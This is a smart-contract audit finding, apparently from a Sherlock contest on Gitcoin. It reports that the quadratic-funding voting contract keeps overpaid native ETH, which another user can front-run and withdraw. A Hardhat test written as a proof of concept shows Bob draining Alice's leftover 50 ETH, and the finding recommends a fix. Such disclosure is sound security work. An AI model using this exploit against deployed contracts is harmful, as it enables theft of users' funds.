 Juntao

medium

# User votes with more Native Token than specified in calldata may lead to funding loss

## Summary
If user votes on project with more Native Token than specified, the extra token remains in vote contract might be stolen by malicious user.
## Vulnerability Detail
In _**QuadraticFundingVotingStrategyImplementation**_, user can call _**vote(bytes[] calldata, address)**_ method from _**RoundImplementation**_ to vote on projects with Native Token or ERC20 Token. 

The voting token will be in turn sent to _**_grantAddress**_ specified in calldata, transferred amount is also specified in calldata as _**_amount**_ .

This works fine for ERC20 Token, but for Native Token, protocol does not check if the total token amount user wants to send equals _**msg.value**_, it's possible that user sends more token than required, meaning _**msg.value**_ > total _**_amount**_. In that case, the total _**_amount**_ of Native Token will be sent to _**_grantAddress**_ and the remainings are kept in _**QuadraticFundingVotingStrategyImplementation**_ contract. 

To withdraw, user can simply call _**vote(bytes[] calldata, address)**_ again with the _**_grantAddress**_ being his/her own account. The problem is, an attacker can do the same and front-run user's transaction, to steal the funds.

Let's assume:
1. Alice wants to vote on a project with 100 ETH, but by mistake she uses _{ value: 150 ETH }_ in transaction;
2. 100 ETH is sent to grant address and 50 ETH remains in vote contract;
3. Later Alice reliazes it and she wants to get the funds back, so she submits another vote transaction with _{ value: 0 }_ and __grantAddress_ being her own account;
4. Bob sees Alice's transaction in mempool, so he submits a vote transaction as well and front-run Alice's, with _{ value: 0 }_ and __grantAddress_ being Bob's own account;
5. The 50 ETH in vote contract is sent to Bob's account and Alice gets nothing, the funds was stolen by Bob.

Please see blew Test Codes:

```typescript
describe("audit: vote", () => {
      // let encodedVotes;
      let _currentBlockTimestamp: number;

      beforeEach(async () => {
        _currentBlockTimestamp = (
          await ethers.provider.getBlock(await ethers.provider.getBlockNumber())
        ).timestamp;

        await initRound(_currentBlockTimestamp);

        // Mine Blocks
        await ethers.provider.send("evm_mine", [_currentBlockTimestamp + 900]);
      });

      it("Vote with native token", async () => {
        const [_, alice, bob] = await ethers.getSigners();

        let beforeVoteAliceBalance = await ethers.provider.getBalance(alice.address);
        let beforeVoteBobBalance = await ethers.provider.getBalance(bob.address);
        expect(beforeVoteAliceBalance).to.equal(ethers.utils.parseEther("10000"));
        expect(beforeVoteBobBalance).to.equal(ethers.utils.parseEther("10000"));

        let votingStrategy = await roundImplementation.votingStrategy();
        let beforeVoteVotingStrategyBalance = await ethers.provider.getBalance(votingStrategy);
        expect(beforeVoteVotingStrategyBalance).to.equal("0");

        let grant = Wallet.createRandom().address;
        let beforeVoteGrantBalance = await ethers.provider.getBalance(grant);
        expect(beforeVoteGrantBalance).to.equal(ethers.utils.parseEther("0"));

        // Alice votes 100 ETH on project, but with msg.value being 150 ETH
        let encodedVotes = [];
        const vote = [
          AddressZero,
          ethers.utils.parseUnits("100", "ether"),
          grant,
          formatBytes32String("grant")
        ];
        encodedVotes.push(
          ethers.utils.defaultAbiCoder.encode(
            ["address", "uint256", "address", "bytes32"],
            vote
          )
        );
        await roundImplementation.connect(alice).vote(encodedVotes, { value: ethers.utils.parseUnits("150", "ether") });

        // 100 ETH is sent to project address, 50 ETH remains in vote contract
        let afterVoteGrantBalance = await ethers.provider.getBalance(grant);
        expect(afterVoteGrantBalance).to.equal(ethers.utils.parseEther("100"));

        let afterVoteVotingStrategyBalance = await ethers.provider.getBalance(votingStrategy);
        expect(afterVoteVotingStrategyBalance).to.equal(ethers.utils.parseEther("50"));

        // Bob submits vote transaction to steal 50 ETH from vote contract
        let bobEncodedVotes = [];
        const bobVote = [
          AddressZero,
          ethers.utils.parseUnits("50", "ether"),
          bob.address,
          formatBytes32String("bob")
        ];
        bobEncodedVotes.push(
          ethers.utils.defaultAbiCoder.encode(
            ["address", "uint256", "address", "bytes32"],
            bobVote
          )
        );
        await roundImplementation.connect(bob).vote(bobEncodedVotes, { value: 0 });

        // 50 ETH is sent to Bob and Alice gets nothing
        let afterBobVoteVotingStrategyBalance = await ethers.provider.getBalance(votingStrategy);
        expect(afterBobVoteVotingStrategyBalance).to.equal(0);

        let afterBobVoteBobBalance = await ethers.provider.getBalance(bob.address);
        expect(afterBobVoteBobBalance.gt(beforeVoteBobBalance)).to.be.true;

        let afterBobVoteAliceBalance = await ethers.provider.getBalance(alice.address);
        expect(afterBobVoteAliceBalance.lt(ethers.utils.parseUnits("9850", "ether"))).to.be.true;
      });
    });
```

## Impact
User's voting funds could be stolen by malicious user.

## Code Snippet
https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/votingStrategy/QuadraticFundingStrategy/QuadraticFundingVotingStrategyImplementation.sol#L55-L102

## Tool used

Manual Review

## Recommendation
Please consider check if user sends the same amount of Native Token as the total amount specified in calldata, and revert or send back extra token if it's not the case.